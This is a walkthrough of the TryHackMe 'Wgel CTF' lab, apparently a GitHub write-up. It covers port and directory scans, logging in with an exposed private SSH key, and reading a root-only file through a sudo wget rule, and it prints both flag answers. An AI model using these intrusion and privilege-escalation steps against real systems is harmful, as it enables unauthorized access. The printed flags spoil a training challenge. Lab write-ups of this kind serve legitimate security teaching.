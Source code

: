 # Wgel CTF

# Task 1

### 1 -- User flag

Nmap scan to see all that is open:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Wgel CTF$ nmap -sC -sV -Pn -n -oN nmap/initial $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 15:27 MDT
Nmap scan report for 10.10.146.14
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.55 seconds
```

So we have a webserver, and when browsing to it we just get the default apache homepage. Inspecting the HTML source gives us a hint on who one of the device's users might be:


![jessie](https://user-images.githubusercontent.com/32188816/82766023-c31a5100-9dd8-11ea-8795-2891a30e6da4.png)


Let's check out what is on port 80 with a little gobuster:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Wgel CTF$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.146.14
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 15:27:33 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
/sitemap (Status: 301)
===============================================================
2020/05/24 15:28:50 Finished
===============================================================
```

Checking out `/sitemap` with another gobuster scan we find a `/.ssh` directory:

```bash
===============================================================
jeffrowell@kali:~/Documents/TryHackMe/Wgel CTF$ gobuster dir -u http://$IP/sitemap -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.146.14/sitemap
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/05/24 15:30:11 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.ssh (Status: 301)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
===============================================================
2020/05/24 15:31:20 Finished
===============================================================
```

Browsing to that `/sitemap/.ssh` directory we see that we have a private SSH key!

![sshkey](https://user-images.githubusercontent.com/32188816/82766048-fe1c8480-9dd8-11ea-84d7-69492aab7657.png)

![ssh_key_contents](https://user-images.githubusercontent.com/32188816/82766074-21473400-9dd9-11ea-8431-a848b43c9871.png)

Now we can try to log into the box. Let's try to login as the `jessie` user with the private key we just found.

```bash
jeffrowell@kali:~/Documents/TryHackMe/Wgel CTF$ ssh $IP -i id_rsa -l jessie
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ ls
```

And we are in! Looking around jeesie's directories we can easily find the user flag:
```bash
jessie@CorpOne:~$ ls
Desktop  Documents  Downloads  examples.desktop  Music  Pictures  Public  Templates  Videos
jessie@CorpOne:~$ cd Desktop/
jessie@CorpOne:~/Desktop$ ls
jessie@CorpOne:~/Desktop$ ls -a
.  ..
jessie@CorpOne:~/Desktop$ cd ../Documents/
jessie@CorpOne:~/Documents$ ls
user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6
```



### 2 -- Root flag

First let us see if we can run any commands with root privileges:

```bash
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Cool, so we can run any command with root but that requires a password, which we don't have. But we can run wget as root. We could look at GTFOBins and see how to leverage this to get a root shell or persistent privilege access, but we can easily just tell wget to try and read URLs from the `/root/root_flag.txt` file and that gives us the flag:

```bash
jessie@CorpOne:~/Documents$ sudo wget --input-file /root/root_flag.txt
--2020-05-25 01:00:33--  http://b1b968b37519ad1daa6408188649263d/
Resolving b1b968b37519ad1daa6408188649263d (b1b968b37519ad1daa6408188649263d)... failed: Name or service not known.
wget: unable to resolve host address ‘b1b968b37519ad1daa6408188649263d’
```
